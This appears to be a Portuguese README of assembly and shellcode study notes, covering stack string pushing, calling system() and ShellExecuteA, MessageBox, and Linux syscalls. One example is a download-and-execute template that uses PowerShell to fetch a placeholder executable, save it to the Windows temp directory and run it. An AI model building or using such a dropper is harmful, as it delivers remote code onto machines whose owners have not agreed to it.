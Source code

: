 # Syntax Intel vs AT&T

![Diferença de Syntax](Syntax.png)

# Instruções

![Instruções](Instrucoes.png)

# Windows

## Instruções
Os comandos devem ser enviado a stack alinhados de 4 em 4 bytes ,por exemplo 63616c632e657865 ficaria 63 61 6c 63 / 65 78 65 00, e pelo push de forma invertida e com 00 no final para o programa saber que acabou. 
Exemplo: cmd.exe00 → 00exe.cmd, em hex 63 6D 64 2E 65 78 65 → 00657865 2E646D63

---

Sempre verificar os parâmetros da função e enviar ao contrário os argumentos

---
Como compilar: 
``nasm -f win32 <file.asm>``
``golink /entry _main <file.obj> <dll> ``

---
Para pesquisar:
Forma básica: ``arwin <dll name> <function name>``

---
## Exemplos
### Cmd 
```nasm
extern system
global _main

section .text ;Define a sessão de código
_main: ;Define a main

	push 0x00657865 ;00exe
	push 0x2e646d63 ;.cmd
	push esp
	pop eax
	push eax
	mov ebx, 0x76453dc0 ;Chama o system
	call ebx
```
### Compilando
- nasm -f win32 file.asm
- golink /entry _ main file.obj msvcrt.dll
---
### Caixa de texto
```nasm
extern _MessageBoxA
global _main

section .data
	msg db "<msg>",0
	title db "<title>",0

section .text
_main:
	push 0
	push title
	push msg
	push 0
	call _MessageBoxA
```
### Compilando
- nasm -f win32 file.asm
- golink /entry _ main file.obj User32.dll /mix
---
### Execução de comandos no cmd
```nasm
extern _ShellExecuteA
global _main

section .data
	type db "open",0
	cmd db "cmd",0
	par db "/c <command>",0

section .text
_main:
	push 0
	push 0
	push par
	push cmd
	push type
	push 0
	call _ShellExecuteA
```
### Compilando
- nasm -f win32 file.asm
- golink /entry _ main file.obj Shell32.dll /mix
---
### Download por cmd
```nasm
extern _ShellExecuteA
global _main

section .data
	type db "open",0
	cmd db "cmd",0
	par db "/c  powershell -Command wget '<url.exe>' -OutFile <dir.exe> ; <dir.exe>, 0

section .text
_main:
	push 0
	push 0
	push par
	push cmd
	push type
	push 0
	call _ShellExecuteA
```
### Diretório Recomendado
- Diretório temporário do Windows -> c:\windows\temp\

### Compilando
- nasm -f win32 file.asm
- golink /console /entry _ main file.obj User32.dll /mix
---
# Linux
## Instruções

Como compilar em x86: 
``nasm -f elf32 <file.asm> ld --entry main <file.o> -m elf_i386 -o <output file>``

---
Como compilar em x64: 
``nasm -f elf64 <file.asm> ld --entry _main <file.o> -o <output file>``

---
## Sites Úteis
[https://syscalls.w3challs.com/?arch=x86](https://syscalls.w3challs.com/?arch=x86)

[https://syscalls.w3challs.com/?arch=x86_64](https://syscalls.w3challs.com/?arch=x86_64)

[https://asciitohex.com](https://asciitohex.com)


---
## Exemplos
### Texto no bash x86
```nasm
global _main

section  .data
	<text>: db '<text>'0xa

section .text
_main:
	mov eax, 4
	mov ebx, 1; STDIN0, STDOUT1, STDERR2
	mov ecx, <text>
	mov edx, <size>
	int 0x80

	mov eax, 1
	mov ebx, 0
int 0x80
```
---
### Texto no bash x64
```nasm
global _main

section  .data
	<text>: db '<text>'0xa

section .text
_main:
	mov rax, 1
	mov rdi, 1; STDIN0, STDOUT1, STDERR2
	mov rsi, <text>
	mov rdx, <size>
	syscall

	mov rax, 60
	mov rdi, 0
	syscall
```
